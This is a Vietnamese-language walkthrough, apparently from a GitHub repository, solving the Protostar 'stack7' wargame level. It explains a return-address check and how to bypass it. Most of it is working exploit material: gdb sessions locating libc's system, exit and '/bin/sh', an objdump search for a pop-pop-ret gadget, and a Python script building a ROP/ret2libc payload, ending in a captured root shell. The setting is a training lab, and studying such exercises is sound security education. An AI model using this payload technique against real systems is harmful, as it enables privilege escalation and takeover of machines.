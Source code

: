 # STACK SEVEN

## About

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SEVEN` giới thiệu về cách chúng ta sử dụng segment .text khi mà địa chỉ bị giới hạn trả về không chỉ còn là stack. Chúng ta sẽ tìm hiểu về các ROPgadget và kỹ thuật khai thác ROP (Return-oriented programming).

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }
```

if((ret & 0xb0000000) == 0xb0000000)

```
Giả sử ret = 0xb7777777
	     ret & 0xb0000000

	     0xb7777777 
     	   & 0xb0000000
	     __________
             0xb0000000 <-- luôn bằng 0xb0000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP (tất cả bị đưa về `0xb0000000`) nếu như địa chỉ đó nằm trong khoảng từ `0xb0000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack7
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) start
Temporary breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
Starting program: /opt/protostar/bin/stack7

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 2088
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoạn địa chỉ từ `0xb0000000` đến `0xbfffffff` là vùng bị giới hạn - gần như tất cả các phân vùng của chương trình trừ những gì trong đoạn từ `0x8048000` đến `0x804a000` -> không thể sử dụng trực tiếp ret2libc như `STACK SIX` mà ta sẽ trả về một địa chỉ nào đó trên phân vùng không bị giới hạn rồi mới quay lại ret2libc.

Ở đây mình chọn `.text` với địa chỉ của `gadget` `pop pop ret`.

system(), exit(), "/bin/sh".

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Nó chạy cùng 1 thư viện với `STACK SIX` @@.

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Gadget `pop pop ret`.

`root@protostar:/opt/protostar/bin# objdump -d stack7 | grep -a2 pop`

Có 3 vị trí thỏa mãn 0x80485f7, 0x80485c7, 0x8048492. Mình chọn cái này:

```
 80485c0:       72 de                   jb     80485a0 <__libc_csu_init+0x30>
 80485c2:       83 c4 1c                add    $0x1c,%esp
 80485c5:       5b                      pop    %ebx
 80485c6:       5e                      pop    %esi
 80485c7:       5f                      pop    %edi     * Start gadget for me.
 80485c8:       5d                      pop    %ebp
 80485c9:       c3                      ret
```

Payload của chúng ta bây giờ là:

`payload = "A" * 80 + addr_gadget + + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 80
ppr = struct.pack("I", 0x080485c7)
pop1 = "AAAA"
pop2 = "BBBB"
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + ppr + pop1 + pop2 + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin# (python exp.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAǅAAAAAAAAAAAAǅAAAABBBB`췿c
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	final1	final2	format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7
```


## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://bufferoverflows.net/ret2libc-exploitation-example/>

<https://en.wikipedia.org/wiki/Return-oriented_programming>


